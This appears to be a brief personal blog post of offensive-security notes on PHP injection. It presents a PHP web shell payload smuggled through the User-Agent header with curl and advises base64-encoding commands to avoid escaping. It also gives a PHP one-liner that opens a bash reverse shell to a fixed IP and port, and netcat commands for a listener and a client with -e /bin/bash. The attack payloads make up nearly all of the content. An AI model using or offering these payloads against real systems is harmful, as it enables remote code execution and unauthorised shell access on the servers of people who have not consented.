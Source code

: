 ```yaml
---
layout: post
author: redle
---
```


 Some leasons learned...

# PHP Injection:
## Use User Agent to avoid scape ' or "
```
$ curl -K file

file:
user-agent = "<?php system($_GET['cmd']) ?>"
```

## Base64 avoiding special chars:
> Use base64 to send the command, this avoid problem with special chas as : ',",;, and eliminate the scape of these chars.

## PHP Shell:
```
<?php system(\"/bin/bash -c 'bash -i >& /dev/tcp/172.20.1.32/9090 0>&1'\");?>
```

## Netcat:
```
# server
$ nc -lvp 9090
# client
$ nc <IP> <PORT> -e /bin/bash
```